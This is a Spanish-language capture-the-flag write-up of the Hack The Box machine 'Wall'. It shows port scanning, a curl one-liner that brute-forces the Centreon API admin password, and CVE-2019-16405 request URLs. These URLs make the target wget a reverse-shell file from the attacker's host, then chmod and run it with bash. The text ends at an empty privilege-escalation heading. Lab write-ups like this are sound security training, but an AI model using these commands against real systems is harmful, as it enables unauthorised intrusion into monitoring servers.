 # Wall

![1_XItXYcP8tLhBnR8FvyPing](https://user-images.githubusercontent.com/87484792/184016462-429034df-66b4-4f34-8386-107417732885.png)

## Datos de Interés

Siento que esta máquina no tiene un gran nivel de dificultad. Será cuestión de investigar un poco sobre el servicio de monitorización que hostea el puerto 80 en el servidor Web. En este caso se trata de **Centreón**. La escalada de privilegios se hará a traves de un SUID que ya hemos podido explotar en otras maquinas, será el screen con versión 4.5.0. Explicaremos de forma manual algunos scripts para entender la intrusión.

## Enumeración

Empezaremos con la fase de enumeración, usaremos nmap para descubrir puertos abiertos. 

`sudo nmap --min-rate 5000 -vvv -p- -sS -Pn -n -oN openPorts.txt 10.10.10.157`

Esta maquina solamente tiene dos puertos abiertos.

![image](https://user-images.githubusercontent.com/87484792/184020390-8073e636-5782-434b-8c9e-d632cec64022.png)

Por un lado tendremos puerto 22 (SSH) y por otro lado el puerto 80 (HTTP).

##  Reconocimiento 

Con SSH no podemos hacer gran cosa ahora mismo, no tenemos credenciales válidas. Iremos a revisar el otro puerto. Encontramos una pagina web con un "Default Page" de Apache. 

![image](https://user-images.githubusercontent.com/87484792/184023616-68fb0323-61b8-4928-863c-4e1f63d08612.png)

Es buena idea empezar a hacer fuzzing, tiraré de dirsearch, en caso de no encontrar nada usaré otro diccionario o haré uso de wFUZZ. Aunque ya puedo adelantar que con dirsearch me fue suficiente.

![image](https://user-images.githubusercontent.com/87484792/184025529-e16886f4-9fc6-4d8c-9cae-5fb7eb29bdd9.png)

Hay cosas interesantes en el reporte del fuzz. 
- */panel.php* parece ser una pequeña troleada del author de la caja.
- */Monitoring*, no podemos acceder. Necesitamos credenciales.
- */centreon* es un software de monitoreo. No tenemos credenciales pero si que tenemos algo muy importante, **la versión**.

![image](https://user-images.githubusercontent.com/87484792/184026472-c0a47dbd-145d-4564-800e-1f39c039f513.png)

La misma web nos da la información que estamos contra un login de versión 19.04

Esto es muy bueno ya que haciendo una busqueda simple en Google, vemos varios CVE y podemos ver que es vulnerable a **RCE**.
Para poder ejecutar estos CVE necesitamos acceso a una cuenta administrador, pero puesto que no tengo ninguno, intentaré bruteforcearlo.

Encontré un script que me ahorraba tiempo para el bruteforce, pero al echarle un ojo quise aprender como funcionaba. Hay un token que nos limita el bruteforce, así que decidi mirar un poco más a fondo. Encontré que este sistema tiene una api que de primera me decia **Unauthorized**. Con una busqueda en google de la API, en la sección de Authenticación pude ver la data que espera la API. Por esta via será mucho más rápido y eficiente que intentar manipular la petición con el token.

Monté un oneliner como este:

`while read line; do request=$(curl -s -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line" | tr -d "\""); if [ $request != "Bad credentials" ];then echo -e "\n"'[*] Password found: '$line; break; fi ; done < /usr/share/wordlists/rockyou.txt`

Funciono. Conseguí la password: `password1`

Y efectivamente era la correcta. 
Tal como se puede mostrar en la imagen, nos ha dejado loguearnos.

![image](https://user-images.githubusercontent.com/87484792/184038497-785183bd-a2e8-4d03-b853-7d061616b1fb.png)

Mirando los POC de los CVE, intenté hacerlo de forma manual. De forma grafica tendremos que acceder a **"Config > Commands > Discovery"**
Sin embargo parece que no funciona, algo esta bloqueando el poder ejecutar comandos. Dudo que siendo admin no tengamos los privilegios suficientes para ejecutar comandos.

![image](https://user-images.githubusercontent.com/87484792/184151052-528764c9-7215-4afa-82df-e14288fbda6f.png)

Me pregunté si habia algún WAF activo. Probé tambien con Scripts que habia de la comunidad en GitHub y Scripts de db-exploit. Ninguno me daba una shell.
Como habia más de un CVE que afectaba a esta versión, decidi mirar los otros caminos posibles. 

## CVE-2019-16405

Podemos realizar Ejecución Remota de Comandos a traves de una modificación de plugin, siempre y cuando tengamos permisos de administrador.
Es el caso, así que probaré.

![image](https://user-images.githubusercontent.com/87484792/184155790-5802941d-d764-4ce8-9d33-05e921090fc9.png)

`URL: http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=id&o=p&min=1`

Y si, efectivamente podemos ejecutar comandos. Trataré de cargar una shell para ejecutarla con bash. Hay varios Scripts que son totalmente funcionales, y que dejaré en este write up, pero esta vez lo haremos de forma manual. 

De primeras, crearé un archivo llamado 'shell' con una reverse dentro, compartiré ese archivo a traves de un servidor Python y por último ejecutaré en el centreon el comando de *wget* para descargarlo en la maquina victima.  

![image](https://user-images.githubusercontent.com/87484792/184157502-36293fb2-ee1a-4d9f-9c34-5a1b7279e2c5.png)

Guardamos la shell en el directorio /tmp:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=wget%20http%3A%2F%2F10.10.16.7%2Fshell%20-O%20%2Ftmp%2Fshell&o=p&min=1`

Despues de este paso, queda activarlo para obtener la shell. Ejecutaremos bash.
Para eso antes, me pondré en escucha por el puerto 8081. Y finalmente, ejecutamos.

otorgamos privilegios de ejecución:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=chmod%20777%20/tmp/shell&o=p&min=1`

ejecutamos:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=bash%20%2Ftmp%2Fshell&o=p&min=1`

![image](https://user-images.githubusercontent.com/87484792/184162441-79d1070e-8e07-4132-9e59-646d46373b0a.png)


## Privilegios de Escalados - User & Root
